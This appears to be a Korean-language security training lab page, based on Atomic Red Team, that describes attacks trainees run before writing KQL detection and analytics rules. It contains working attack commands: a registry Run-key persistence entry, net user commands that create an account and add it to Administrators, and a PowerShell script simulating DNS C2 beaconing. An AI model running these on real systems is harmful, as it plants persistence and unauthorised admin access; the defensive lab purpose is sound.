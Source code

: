 # 모듈 7 - 랩 1 - 연습 4 - 검색 모델링 이해

### 작업 1: 공격 이해

**중요: 이 연습에서는 특별한 작업을 수행하지 않으며**  여기에 나오는 지침은 다음 연습에서 수행하게 될 공격에 대한 설명입니다. 이 페이지의 내용을 주의하여 읽어보세요.

이 공격의 패턴은 오픈 소스 프로젝트 https://github.com/redcanaryco/atomic-red-team을 토대로 작성된 것입니다.

**참고:** 랩을 진행하기 위해 짧은 시간 내에 트리거되는 설정도 있습니다.

#### 공격 1 - 레지스트리 키 추가를 통한 지속성 적용

이 공격은 명령 프롬프트에서 실행합니다.

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 공격 2 - 사용자 추가 및 권한 상승

이 공격에서는 공격자가 새 사용자를 추가한 다음 권한을 Administrators 그룹으로 높입니다.  그러면 권한이 있는 다른 계정으로 로그온할 수 있게 됩니다.

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 공격 3 -DNS/C2 

이 공격에서는 C2(명령 및 제어) 통신을 시뮬레이트합니다.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### 작업 2: 검색 모델링 이해

이 랩에서 사용하는 공격 검색 구성 주기에는 모든 데이터 원본이 포함됩니다. 하지만 실제로는 두 가지 데이터 원본만 중점적으로 검색합니다.

검색을 작성하려면 먼저 KQL 문을 작성해야 합니다.  여기서는 호스트를 공격할 것이므로 KQL 문 작성을 시작하는 데 필요한 대표 데이터가 제공됩니다.

다음 랩에서는 엔드포인트용 Defender 및 Sysmon 포함 Windows가 설치된 Windows 호스트에서 동일한 공격을 실행합니다.  검색을 작성하는 과정에서 각 문의 데이터 정규화 방식 차이를 확인할 수 있습니다.

KQL 문을 완성한 후에는 분석 규칙을 만듭니다.

규칙이 트리거되어 경고와 인시던트가 생성되면 조사를 진행하여 보안 운영 분석자의 조사 과정에 도움이 되는 필드가 제공되고 있는지를 확인합니다.

그리고 나서 필요에 따라 분석 규칙의 다른 부분을 변경합니다.

# 연습 5 계속 진행
